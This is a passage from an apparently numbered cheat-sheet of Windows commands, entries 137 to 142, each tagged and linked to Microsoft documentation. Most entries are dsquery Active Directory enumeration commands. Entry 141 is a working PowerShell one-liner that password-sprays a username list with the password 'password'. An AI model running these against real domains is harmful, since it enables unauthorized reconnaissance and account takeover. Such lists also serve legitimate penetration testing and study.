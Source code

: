 https://technet.microsoft.com/fr-fr/library/cc725702(v=ws.10).aspx
__________
### 137. List os's in the domain
```
dsquery * "DC=[domain],DC=[tld]" -scope subtree -attr "cn" "opperatingSystem"
```
**- enumeration,Windows**
#### References:

https://technet.microsoft.com/en-us/library/cc731823(v=ws.11).aspx
__________
### 138. list site names
```
dsquery site -o rdn -limit 0
```
**- enumeration,Windows**
#### References:

https://technet.microsoft.com/en-us/library/cc731823(v=ws.11).aspx
__________
### 139. list subnets within the sites shown
```
dsquery subnet -site [site] -o rdn
```
**- networking,enumeration,Windows**
#### References:

https://technet.microsoft.com/en-us/library/cc732207(v=ws.11).aspx
__________
### 140. list servers within site
```
dsquery server -site [site] -o rdn
```
**- enumeration,dns,Windows**
#### References:

https://technet.microsoft.com/en-us/library/cc732885(v=ws.11).aspx
__________
### 141. Simple powershell brute force, user input list, checks the password 'password'
```
Function Test-ADAuthentication {param($username,$password);echo "$username $password";(new-object directoryservices.directoryentry"",$username,$password).psbase.name -ne $null}; forEach ($userName in Get-Content "user_logins.txt"){Test-ADAuthentication $userName password >> test4.txt;}
```
**- loop,brute,Windows,powershell**
#### References:

https://msdn.microsoft.com/en-us/library/system.directoryservices.directoryentry(v=vs.110).aspx
http://serverfault.com/questions/596602/powershell-test-user-credentials-in-ad-with-password-reset
__________
### 142. uninteractive FTP, read commands from file
```
ftp -s ftp.txt
```
**- files,interesting,Windows**
#### References:
